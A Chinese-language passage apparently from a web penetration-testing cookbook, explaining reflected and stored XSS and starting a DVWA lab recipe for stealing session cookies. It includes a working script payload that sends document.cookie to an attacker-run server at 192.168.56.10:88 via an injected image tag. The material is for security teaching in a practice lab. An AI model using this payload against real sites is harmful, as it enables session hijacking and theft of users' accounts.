 攻击者利用这些漏洞改变页面在客户端的行为，欺骗用户在不知情的情况下执行任务，或窃取私人信息。

为了发现 XSS 漏洞，我们跟踪了一些线索：

+   我们在框中输入的文本被准确地用来形成一个显示在页面上的消息；也就是说，这是一个反射点。

+   特殊字符没有被编码或转义

+   源代码显示我们的输入被集成到了一个可以成为 HTML 代码一部分的位置，并且浏览器会将其作为 HTML 代码解析。

# 还有更多...

在这个示例中，我们发现了一个反射型 XSS；这意味着每次我们发送这个请求并且服务器响应时，脚本都会执行。另一种 XSS 类型被称为存储型 XSS。存储型 XSS 可能在输入提交后不立即呈现，但这些输入会被存储在服务器上（可能是数据库中），并在每次用户访问存储的数据时执行。

# 通过 XSS 获取会话 cookie

在前面的示例中，我们进行了一次非常基础的 XSS 利用原型测试。此外，在之前的章节中，我们看到了攻击者如何使用会话 cookie 窃取有效用户的会话。没有`HttpOnly`标志保护的 XSS 漏洞和会话 cookie，可能是对 Web 应用程序安全的致命组合。

在这个示例中，我们将看到攻击者如何利用 XSS 漏洞获取用户的会话 cookie。

# 如何操作...

攻击者需要有一个服务器来接收外泄的数据（在这个例子中是会话 cookie），因此我们将使用一个简单的 Python 模块来设置它。以下是步骤：

1.  要使用 Python 启动一个基本的 HTTP 服务器，请在 Kali Linux 的终端中运行以下命令：

![](img/d3290beb-bd98-4ced-89cf-a10766e7186d.png)

1.  现在登录到 DVWA 并进入 XSS 反射攻击。

1.  在名称文本框中输入以下有效负载：

```
Bob<script>document.write('<img src="http://192.168.56.10:88/'+document.cookie+'">');</script>
```

![](img/55350ad2-5d35-487a-aa21-ef9dbb4db8ef.png)
